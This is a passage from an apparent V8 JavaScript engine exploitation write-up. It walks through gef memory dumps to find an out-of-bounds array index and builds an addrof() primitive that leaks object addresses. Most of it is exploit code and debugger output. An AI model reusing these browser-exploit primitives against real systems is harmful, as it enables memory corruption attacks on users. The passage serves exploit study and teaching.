 Let's check the `obj_arr` first:

```javascript
gef➤  x/6gx 0x30e008085979-1
0x30e008085978:	0x0000000208042205	0x08243a410808594d
0x30e008085988:	0x080859790804222d	0x080425a900000064
0x30e008085998:	0x0000000400000003	0x0000000029386428
```

In line with what we get from `%DebugPrint()`, we get the lower 4 bytes of `0808594d`. If we print from `elements` onwards for the `float_arr`:

```javascript
gef➤  x/20gx 0x30e008085919-1 
0x30e008085918:	0x0000000408042a99	0x3ff8000000000000
0x30e008085928:	0x4004000000000000	0x0804222d082439f1
0x30e008085938:	0x0000006408085919	0x082439f1080423d1
0x30e008085948:	0x082459f90804222d	0x0804222d0804222d
0x30e008085958:	0x08045a0100000002	0x0000000000010001
0x30e008085968:	0x080477ed080421f9	0x0000000200000088
0x30e008085978:	0x0000000208042205	0x08243a410808594d
0x30e008085988:	0x080859790804222d	0x080425a900000064
0x30e008085998:	0x0000000400000003	0x0000000029386428
0x30e0080859a8:	0x0000000000000000	0x0000000000000000
```

We can see the value `0x08243a410808594d` at `0x30e008085980`. If the value `1.5` at `0x22f908085370` is index `0`, we can count and get an index of `12`. Let's try that:

```javascript
function addrof(obj) {
    obj_arr[0] = obj;
    let leak = float_arr[12];
    return ftoi(leak);
}

%DebugPrint(initial_obj);
console.log("Leak: 0x" + addrof(initial_obj).toString(16))
```

And from the output, it looks very promising!

```javascript
Leak: 0x8243a410808593d
DebugPrint: 0x28a60808593d: [JS_OBJECT_TYPE]
 - map: 0x28a6082459f9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x28a608202f11 <Object map = 0x28a6082421b9>
 - elements: 0x28a60804222d <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x28a60804222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0x28a6080477ed: [String] in ReadOnlySpace: #a: 1 (const data field 0), location: in-object
 }
```

The lower 4 bytes match up perfectly. We're gonna return just the last 4 bytes:

```javascript
return ftoi(leak) & 0xffffffffn;
```
